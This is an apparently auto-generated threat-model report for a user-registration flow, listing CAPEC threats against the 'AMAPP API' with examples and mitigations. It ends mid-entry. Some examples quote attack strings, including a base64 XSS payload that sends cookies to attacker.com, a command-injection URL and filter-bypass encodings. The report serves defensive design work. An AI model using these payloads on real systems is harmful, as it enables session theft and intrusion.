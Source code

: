 <link href="docs/Stylesheet.css" rel="stylesheet"></link>

## System Description
&nbsp;

User Registration Level 1

&nbsp;




## Dataflow Diagram - Level 1 DFD

![](amapp_dfd_user_reg_1.png)

&nbsp;

## Dataflows
&nbsp;

Name|From|To |Data|Protocol|Port
|:----:|:----:|:---:|:----:|:--------:|:----:|
|Submit registration data|User|AMAPP API|Registration Info|HTTPS|-1|
|Store user data|AMAPP API|AMAPP DB|User Data|SQL/TLS|-1|
|Review registration requests|AMAPP Admin|AMAPP API|Registration Review Action|HTTPS|-1|
|Update approval status|AMAPP API|AMAPP DB|Approval Status|SQL/TLS|-1|
|Notify approval decision|AMAPP API|User|Approval Notification|HTTPS|-1|


## Data Dictionary
&nbsp;

Name|Description|Classification
|:----:|:--------:|:----:|
|Registration Info|User's name, email, password.|UNKNOWN|
|User Data|Stored user account info (hashed password, email, etc.)|UNKNOWN|
|Registration Review Action|Administrator's decision on pending registration.|UNKNOWN|
|Approval Status|Approval or rejection of a user registration.|UNKNOWN|
|Approval Notification|Notification message sent to user.|UNKNOWN|


&nbsp;

## Potential Threats

&nbsp;
&nbsp;

|
<details>
  <summary>   INP02   --   Overflow Buffers</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>The most straightforward example is an application that reads in input from the user and stores it in an internal buffer but does not check that the size of the input data is less than or equal to the size of the buffer. If the user enters excessive length data, the buffer may overflow leading to the application crashing, or worse, enabling the user to cause execution of injected code.Many web servers enforce security in web applications through the use of filter plugins. An example is the SiteMinder plugin used for authentication. An overflow in such a plugin, possibly through a long URL or redirect parameter, can allow an adversary not only to bypass the security checks but also execute arbitrary code on the target web server in the context of the user that runs the web server process.</p>
  <h6>Mitigations</h6>
  <p>Use a language or compiler that performs automatic bounds checking. Use secure functions not vulnerable to buffer overflow. If you have to use dangerous functions, make sure that you do boundary checking. Compiler-based canary mechanisms such as StackGuard, ProPolice and the Microsoft Visual Studio /GS flag. Unless this provides automatic bounds checking, it is not a complete solution. Use OS-level preventative functionality. Not a complete solution. Utilize static source code analysis tools to identify potential buffer overflow weaknesses in the software.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/100.html, http://cwe.mitre.org/data/definitions/120.html, http://cwe.mitre.org/data/definitions/119.html, http://cwe.mitre.org/data/definitions/680.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA01   --   Authentication Abuse/ByPass</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/114.html, http://cwe.mitre.org/data/definitions/287.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DE02   --   Double Encoding</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Double Enconding Attacks can often be used to bypass Cross Site Scripting (XSS) detection and execute XSS attacks. The use of double encouding prevents the filter from working as intended and allows the XSS to bypass dectection. This can allow an adversary to execute malicious code.</p>
  <h6>Mitigations</h6>
  <p>Assume all input is malicious. Create a white list that defines all valid input to the software system based on the requirements specifications. Input that does not match against the white list should not be permitted to enter into the system. Test your decoding process against malicious input. Be aware of the threat of alternative method of data encoding and obfuscation technique such as IP address encoding. When client input is required from web-based forms, avoid using the GET method to submit data, as the method causes the form data to be appended to the URL and is easily manipulated. Instead, use the POST method whenever possible. Any security checks should occur after the data has been decoded and validated as correct data format. Do not repeat decoding process, if bad character are left after decoding process, treat the data as suspicious, and fail the validation process.Refer to the RFCs to safely decode URL. Regular expression can be used to match safe URL patterns. However, that may discard valid URL requests if the regular expression is too restrictive. There are tools to scan HTTP requests to the server for valid URL such as URLScan from Microsoft (http://www.microsoft.com/technet/security/tools/urlscan.mspx).</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/120.html, http://cwe.mitre.org/data/definitions/173.html, http://cwe.mitre.org/data/definitions/177.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC01   --   Privilege Abuse</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary that has previously obtained unauthorized access to certain device resources, uses that access to obtain information such as location and network information.</p>
  <h6>Mitigations</h6>
  <p>Use strong authentication and authorization mechanisms. A proven protocol is OAuth 2.0, which enables a third-party application to obtain limited access to an API.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/122.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/269.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP07   --   Buffer Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>Attacker identifies programmatic means for interacting with a buffer, such as vulnerable C code, and is able to provide input to this interaction.</p>
  <h6>Mitigations</h6>
  <p>To help protect an application from buffer manipulation attacks, a number of potential mitigations can be leveraged. Before starting the development of the application, consider using a code language (e.g., Java) or compiler that limits the ability of developers to act beyond the bounds of a buffer. If the chosen language is susceptible to buffer related issues (e.g., C) then consider using secure functions instead of those vulnerable to buffer manipulations. If a potentially dangerous function must be used, make sure that proper boundary checking is performed. Additionally, there are often a number of compiler-based mechanisms (e.g., StackGuard, ProPolice and the Microsoft Visual Studio /GS flag) that can help identify and protect against potential buffer issues. Finally, there may be operating system level preventative functionality that can be applied.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/123.html, http://cwe.mitre.org/data/definitions/119.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO01   --   Flooding</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Adversary tries to bring a network or service down by flooding it with large amounts of traffic.</p>
  <h6>Mitigations</h6>
  <p>Ensure that protocols have specific limits of scale configured. Specify expectations for capabilities and dictate which behaviors are acceptable when resource allocation reaches limits. Uniformly throttle all requests in order to make it more difficult to consume resources more quickly than they can again be freed.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/125.html, http://cwe.mitre.org/data/definitions/404.html, http://cwe.mitre.org/data/definitions/770.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   DO02   --   Excessive Allocation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>In an Integer Attack, the adversary could cause a variable that controls allocation for a request to hold an excessively large value. Excessive allocation of resources can render a service degraded or unavailable to legitimate users and can even lead to crashing of the target.</p>
  <h6>Mitigations</h6>
  <p>Limit the amount of resources that are accessible to unprivileged users. Assume all input is malicious. Consider all potentially relevant properties when validating input. Consider uniformly throttling all requests in order to make it more difficult to consume resources more quickly than they can again be freed. Use resource-limiting settings, if possible.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/130.html, http://cwe.mitre.org/data/definitions/770.html, http://cwe.mitre.org/data/definitions/404.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP08   --   Format String Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Untrusted search path vulnerability in the add_filename_to_string function in intl/gettext/loadmsgcat.c for Elinks 0.11.1 allows local users to cause Elinks to use an untrusted gettext message catalog (.po file) in a ../po directory, which can be leveraged to conduct format string attacks.</p>
  <h6>Mitigations</h6>
  <p>Limit the usage of formatting string functions. Strong input validation - All user-controllable input must be validated and filtered for illegal formatting characters.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/135.html, http://cwe.mitre.org/data/definitions/134.html, http://cwe.mitre.org/data/definitions/133.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP12   --   Client-side Injection-induced Buffer Overflow</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Attack Example: Buffer Overflow in Internet Explorer 4.0 Via EMBED Tag Authors often use EMBED tags in HTML documents. For example &lt;EMBED TYPE=audio/midi SRC=/path/file.mid AUTOSTART=true If an attacker supplies an overly long path in the SRC= directive, the mshtml.dll component will suffer a buffer overflow. This is a standard example of content in a Web page being directed to exploit a faulty module in the system. There are potentially thousands of different ways data can propagate into a given system, thus these kinds of attacks will continue to be found in the wild.</p>
  <h6>Mitigations</h6>
  <p>The client software should not install untrusted code from a non-authenticated server. The client software should have the latest patches and should be audited for vulnerabilities before being used to communicate with potentially hostile servers. Perform input validation for length of buffer inputs. Use a language or compiler that performs automatic bounds checking. Use an abstraction library to abstract away risky APIs. Not a complete solution. Compiler-based canary mechanisms such as StackGuard, ProPolice and the Microsoft Visual Studio /GS flag. Unless this provides automatic bounds checking, it is not a complete solution. Ensure all buffer uses are consistently bounds-checked. Use OS-level preventative functionality. Not a complete solution.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/14.html, http://cwe.mitre.org/data/definitions/74.html, http://cwe.mitre.org/data/definitions/353.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP13   --   Command Delimiters</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>By appending special characters, such as a semicolon or other commands that are executed by the target process, the attacker is able to execute a wide variety of malicious commands in the target process space, utilizing the target&#x27;s inherited permissions, against any resource the host has access to. The possibilities are vast including injection attacks against RDBMS (SQL Injection), directory servers (LDAP Injection), XML documents (XPath and XQuery Injection), and command line shells. In many injection attacks, the results are converted back to strings and displayed to the client process such as a web browser without tripping any security alarms, so the network firewall does not log any out of the ordinary behavior. LDAP servers house critical identity assets such as user, profile, password, and group information that is used to authenticate and authorize users. An attacker that can query the directory at will and execute custom commands against the directory server is literally working with the keys to the kingdom in many enterprises. When user, organizational units, and other directory objects are queried by building the query string directly from user input with no validation, or other conversion, then the attacker has the ability to use any LDAP commands to query, filter, list, and crawl against the LDAP server directly in the same manner as SQL injection gives the ability to the attacker to run SQL commands on the database.</p>
  <h6>Mitigations</h6>
  <p>Design: Perform whitelist validation against a positive specification for command length, type, and parameters.Design: Limit program privileges, so if commands circumvent program input validation or filter routines then commands do not running under a privileged accountImplementation: Perform input validation for all remote content.Implementation: Use type conversions such as JDBC prepared statements.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/15.html, http://cwe.mitre.org/data/definitions/146.html, http://cwe.mitre.org/data/definitions/77.html, http://cwe.mitre.org/data/definitions/157.html, http://cwe.mitre.org/data/definitions/154.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP14   --   Input Data Manipulation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>A target application has an integer variable for which only some integer values are expected by the application. But since it does not have any checks in place to validate the value of the input, the attacker is able to manipulate the targeted integer variable such that normal operations result in non-standard values.</p>
  <h6>Mitigations</h6>
  <p>Validation of user input for type, length, data-range, format, etc.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/153.html, http://cwe.mitre.org/data/definitions/20.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   CR03   --   Dictionary-based Password Attack</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>A system user selects the word treacherous as their passwords believing that it would be very difficult to guess. The password-based dictionary attack is used to crack this password and gain access to the account.The Cisco LEAP challenge/response authentication mechanism uses passwords in a way that is susceptible to dictionary attacks, which makes it easier for remote attackers to gain privileges via brute force password guessing attacks. Cisco LEAP is a mutual authentication algorithm that supports dynamic derivation of session keys. With Cisco LEAP, mutual authentication relies on a shared secret, the user&#x27;s logon password (which is known by the client and the network), and is used to respond to challenges between the user and the Remote Authentication Dial-In User Service (RADIUS) server. Methods exist for someone to write a tool to launch an offline dictionary attack on password-based authentications that leverage Microsoft MS-CHAP, such as Cisco LEAP. The tool leverages large password lists to efficiently launch offline dictionary attacks against LEAP user accounts, collected through passive sniffing or active techniques.See also: CVE-2003-1096</p>
  <h6>Mitigations</h6>
  <p>Create a strong password policy and ensure that your system enforces this policy.Implement an intelligent password throttling mechanism. Care must be taken to assure that these mechanisms do not excessively enable account lockout attacks such as CAPEC-02.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/16.html, http://cwe.mitre.org/data/definitions/521.html, http://cwe.mitre.org/data/definitions/262.html, http://cwe.mitre.org/data/definitions/263.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AA02   --   Principal Spoof</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>An adversary may craft messages that appear to come from a different principle or use stolen / spoofed authentication credentials.</p>
  <h6>Mitigations</h6>
  <p>Employ robust authentication processes (e.g., multi-factor authentication).</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/195.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP20   --   iFrame Overlay</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The following example is a real-world iFrame overlay attack [2]. In this attack, the malicious page embeds Twitter.com on a transparent IFRAME. The status-message field is initialized with the URL of the malicious page itself. To provoke the click, which is necessary to publish the entry, the malicious page displays a button labeled Don&#x27;t Click. This button is aligned with the invisible Update button of Twitter. Once the user performs the click, the status message (i.e., a link to the malicious page itself) is posted to his/ her Twitter profile.</p>
  <h6>Mitigations</h6>
  <p>Configuration: Disable iFrames in the Web browser.Operation: When maintaining an authenticated session with a privileged target system, do not use the same browser to navigate to unfamiliar sites to perform other activities. Finish working with the target system and logout first before proceeding to other tasks.Operation: If using the Firefox browser, use the NoScript plug-in that will help forbid iFrames.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/222.html, http://cwe.mitre.org/data/definitions/1021.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP23   --   File Content Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>PHP is a very popular language used for developing web applications. When PHP is used with global variables, a vulnerability may be opened that affects the file system. A standard HTML form that allows for remote users to upload files, may also place those files in a public directory where the adversary can directly access and execute them through a browser. This vulnerability allows remote adversaries to execute arbitrary code on the system, and can result in the adversary being able to erase intrusion evidence from system and application logs. [R.23.2]</p>
  <h6>Mitigations</h6>
  <p>Design: Enforce principle of least privilegeDesign: Validate all input for content including files. Ensure that if files and remote content must be accepted that once accepted, they are placed in a sandbox type location so that lower assurance clients cannot write up to higher assurance processes (like Web server processes for example)Design: Execute programs with constrained privileges, so parent process does not open up further vulnerabilities. Ensure that all directories, temporary directories and files, and memory are executing with limited privileges to protect against remote execution.Design: Proxy communication to host, so that communications are terminated at the proxy, sanitizing the requests before forwarding to server host.Implementation: Virus scanning on hostImplementation: Host integrity monitoring for critical files, directories, and processes. The goal of host integrity monitoring is to be aware when a security issue has occurred so that incident response and other forensic activities can begin.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/23.html, http://cwe.mitre.org/data/definitions/20.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC12   --   Privilege Escalation</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The software does not properly assign, modify, track, or check privileges for an actor, creating an unintended sphere of control for that actor. As a result, the program is indefinitely operating in a raised privilege state, possibly allowing further exploitation to occur.</p>
  <h6>Mitigations</h6>
  <p>Very carefully manage the setting, management, and handling of privileges. Explicitly manage trust zones in the software. Follow the principle of least privilege when assigning access rights to entities in a software system. Implement separation of privilege - Require multiple conditions to be met before permitting access to a system resource.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/233.html, http://cwe.mitre.org/data/definitions/269.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC13   --   Hijacking a privileged process</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>The software does not properly assign, modify, track, or check privileges for an actor, creating an unintended sphere of control for that actor. As a result, the program is indefinitely operating in a raised privilege state, possibly allowing further exploitation to occur.</p>
  <h6>Mitigations</h6>
  <p>Very carefully manage the setting, management, and handling of privileges. Explicitly manage trust zones in the software. Follow the principle of least privilege when assigning access rights to entities in a software system. Implement separation of privilege - Require multiple conditions to be met before permitting access to a system resource.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/234.html, http://cwe.mitre.org/data/definitions/732.html, http://cwe.mitre.org/data/definitions/648.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   AC14   --   Catching exception throw/signal from privileged block</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Very High</p>
  <h6>Example Instances</h6>
  <p>Attacker targets an application written using Java&#x27;s AWT, with the 1.2.2 era event model. In this circumstance, any AWTEvent originating in the underlying OS (such as a mouse click) would return a privileged thread. The Attacker could choose to not return the AWT-generated thread upon consuming the event, but instead leveraging its privilege to conduct privileged operations.</p>
  <h6>Mitigations</h6>
  <p>Application Architects must be careful to design callback, signal, and similar asynchronous constructs such that they shed excess privilege prior to handing control to user-written (thus untrusted) code.Application Architects must be careful to design privileged code blocks such that upon return (successful, failed, or unpredicted) that privilege is shed prior to leaving the block/scope.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/236.html, http://cwe.mitre.org/data/definitions/270.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP24   --   Filter Failure through Buffer Overflow</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Attack Example: Filter Failure in Taylor UUCP Daemon Sending in arguments that are too long to cause the filter to fail open is one instantiation of the filter failure attack. The Taylor UUCP daemon is designed to remove hostile arguments before they can be executed. If the arguments are too long, however, the daemon fails to remove them. This leaves the door open for attack.A filter is used by a web application to filter out characters that may allow the input to jump from the data plane to the control plane when data is used in a SQL statement (chaining this attack with the SQL injection attack). Leveraging a buffer overflow the attacker makes the filter fail insecurely and the tainted data is permitted to enter unfiltered into the system, subsequently causing a SQL injection.Audit Truncation and Filters with Buffer Overflow. Sometimes very large transactions can be used to destroy a log file or cause partial logging failures. In this kind of attack, log processing code might be examining a transaction in real-time processing, but the oversized transaction causes a logic branch or an exception of some kind that is trapped. In other words, the transaction is still executed, but the logging or filtering mechanism still fails. This has two consequences, the first being that you can run transactions that are not logged in any way (or perhaps the log entry is completely corrupted). The second consequence is that you might slip through an active filter that otherwise would stop your attack.</p>
  <h6>Mitigations</h6>
  <p>Make sure that ANY failure occurring in the filtering or input validation routine is properly handled and that offending input is NOT allowed to go through. Basically make sure that the vault is closed when failure occurs.Pre-design: Use a language or compiler that performs automatic bounds checking.Pre-design through Build: Compiler-based canary mechanisms such as StackGuard, ProPolice and the Microsoft Visual Studio /GS flag. Unless this provides automatic bounds checking, it is not a complete solution.Operational: Use OS-level preventative functionality. Not a complete solution.Design: Use an abstraction library to abstract away risky APIs. Not a complete solution.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/24.html, http://cwe.mitre.org/data/definitions/120.html, http://cwe.mitre.org/data/definitions/680.html, http://cwe.mitre.org/data/definitions/20.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP25   --   Resource Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>A Java code uses input from an HTTP request to create a file name. The programmer has not considered the possibility that an attacker could provide a file name such as &#x27;../../tomcat/confserver.xml&#x27;, which causes the application to delete one of its own configuration files.</p>
  <h6>Mitigations</h6>
  <p>Ensure all input content that is delivered to client is sanitized against an acceptable content specification.Perform input validation for all content.Enforce regular patching of software.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/240.html, https://capec.mitre.org/data/definitions/240.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP26   --   Code Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>When a developer uses the PHP eval() function and passes it untrusted data that an attacker can modify, code injection could be possible.</p>
  <h6>Mitigations</h6>
  <p>Utilize strict type, character, and encoding enforcementEnsure all input content that is delivered to client is sanitized against an acceptable content specification.Perform input validation for all content.Enforce regular patching of software.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/242.html, http://cwe.mitre.org/data/definitions/94.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP27   --   XSS Targeting HTML Attributes</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>Application allows execution of any Javascript they want on the browser which enables the adversary to steal session tokens and perform malicious activities.</p>
  <h6>Mitigations</h6>
  <p>Design: Use libraries and templates that minimize unfiltered input.Implementation: Normalize, filter and white list all input including that which is not expected to have any scripting content.Implementation: The victim should configure the browser to minimize active content from untrusted sources.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/243.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP28   --   XSS Targeting URI Placeholders</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>The following payload data: text/html;base64,PGh0bWw+PGJvZHk+PHNjcmlwdD52YXIgaW1nID0gbmV3IEltYWdlKCk7IGltZy5zcmMgPSAiaHR0cDovL2F0dGFja2VyLmNvbS9jb29raWVncmFiYmVyPyIrIGVuY29kZVVSSUNvbXBvbmVudChkb2N1bWVudC5jb29raWVzKTs8L3NjcmlwdD48L2JvZHk+PC9odG1sPg== represents a base64 encoded HTML and uses the data URI scheme to deliver it to the browser. The decoded payload is the following piece of HTML code: &lt;html&gt;&lt;body&gt;&lt;script&gt;var img = new Image();img.src = http://attacker.com/cookiegrabber?+ encodeURIComponent(document.cookies); &lt;/script&gt; &lt;/body&gt; &lt;/html&gt; Web applications that take user controlled inputs and reflect them in URI HTML placeholder without a proper validation are at risk for such an attack. An attacker could inject the previous payload that would be placed in a URI placeholder (for example in the anchor tag HREF attribute): &lt;a href=INJECTION_POINT&gt;My Link&lt;/a&gt; Once the victim clicks on the link, the browser will decode and execute the content from the payload. This will result on the execution of the cross-site scripting attack.</p>
  <h6>Mitigations</h6>
  <p>Design: Use browser technologies that do not allow client side scripting.Design: Utilize strict type, character, and encoding enforcement.Implementation: Ensure all content that is delivered to client is sanitized against an acceptable content specification.Implementation: Ensure all content coming from the client is using the same encoding; if not, the server-side application must canonicalize the data before applying any filtering.Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Perform output validation for all remote content.Implementation: Disable scripting languages such as JavaScript in browserImplementation: Patching software. There are many attack vectors for XSS on the client side and the server side. Many vulnerabilities are fixed in service packs for browser, web servers, and plug in technologies, staying current on patch release that deal with XSS countermeasures mitigates this.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/244.html, http://cwe.mitre.org/data/definitions/83.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP29   --   XSS Using Doubled Characters</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>By doubling the &lt; before a script command, (&lt;&lt;script or %3C%3script using URI encoding) the filters of some web applications may fail to recognize the presence of a script tag. If the targeted server is vulnerable to this type of bypass, the attacker can create a crafted URL or other trap to cause a victim to view a page on the targeted server where the malicious content is executed, as per a normal XSS attack.</p>
  <h6>Mitigations</h6>
  <p>Design: Use libraries and templates that minimize unfiltered input.Implementation: Normalize, filter and sanitize all user supplied fields.Implementation: The victim should configure the browser to minimize active content from untrusted sources.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/245.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP30   --   XSS Using Invalid Characters</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>Medium</p>
  <h6>Example Instances</h6>
  <p>The software may attempt to remove a &#x27;javascript:&#x27; URI scheme, but a &#x27;java%00script:&#x27; URI may bypass this check and still be rendered as active javascript by some browsers, allowing XSS or other attacks.</p>
  <h6>Mitigations</h6>
  <p>Design: Use libraries and templates that minimize unfiltered input.Implementation: Normalize, filter and white list any input that will be included in any subsequent web pages or back end operations.Implementation: The victim should configure the browser to minimize active content from untrusted sources.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/247.html, https://cwe.mitre.org/data/definitions/86.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP31   --   Command Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Consider a URL &#x27;http://sensitive/cgi-bin/userData.pl?doc=user1.txt&#x27;. If the URL is modified like so - &#x27;http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|&#x27;, it executed the command &#x27;/bin/ls|&#x27;. This is how command injection is implemented.</p>
  <h6>Mitigations</h6>
  <p>All user-controllable input should be validated and filtered for potentially unwanted characters. Whitelisting input is desired, but if a blacklisting approach is necessary, then focusing on command related terms and delimiters is necessary.Input should be encoded prior to use in commands to make sure command related characters are not treated as part of the command. For example, quotation characters may need to be encoded so that the application does not treat the quotation as a delimiter.Input should be parameterized, or restricted to data sections of a command, thus removing the chance that the input will be treated as part of the command itself.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/248.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP32   --   XML Injection</summary>
  <h6> Targeted Element </h6>
  <p> AMAPP API </p>
  <h6> Severity </h6>
  <p>High</p>
  <h6>Example Instances</h6>
  <p>Consider an application that uses an XML database to authenticate its users. The application retrieves the user name and password from a request and forms an XPath expression to query the database. An attacker can successfully bypass authentication and login without valid credentials through XPath Injection. This can be achieved by injecting the query to the XML database with XPath syntax that causes the authentication check to fail. Improper validation of user-controllable input and use of a non-parameterized XPath expression enable the attacker to inject an XPath expression that causes authentication bypass.</p>
  <h6>Mitigations</h6>
  <p>Strong input validation - All user-controllable input must be validated and filtered for illegal characters as well as content that can be interpreted in the context of an XML data or a query. Use of custom error pages - Attackers can glean information about the nature of queries from descriptive error messages. Input validation must be coupled with customized error pages that inform about an error without disclosing information about the database or application.</p>
  <h6>References</h6>
  <p>https://capec.mitre.org/data/definitions/250.html</p>
  &nbsp;
  &nbsp;
  &emsp;
</details>

<details>
  <summary>   INP33   --   Remote Code Inclusion</summary>
  <h6> Targeted Element </h6>
